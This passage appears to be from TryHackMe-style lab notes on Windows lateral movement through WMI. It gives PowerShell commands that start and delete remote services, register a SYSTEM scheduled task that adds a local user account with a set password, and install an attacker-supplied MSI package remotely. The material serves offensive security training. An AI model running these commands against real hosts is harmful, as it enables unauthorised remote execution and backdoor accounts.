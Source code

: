 ```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finally, we can stop and delete the service with the following commands:

```
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### <font color="#FFA500">Creating Scheduled Tasks Remotely with WMI</font>

* **Ports**:
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships**: Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

### <font color="#FFA500">Installing MSI packages through WMI</font>

* **Ports**:
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships**: Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```
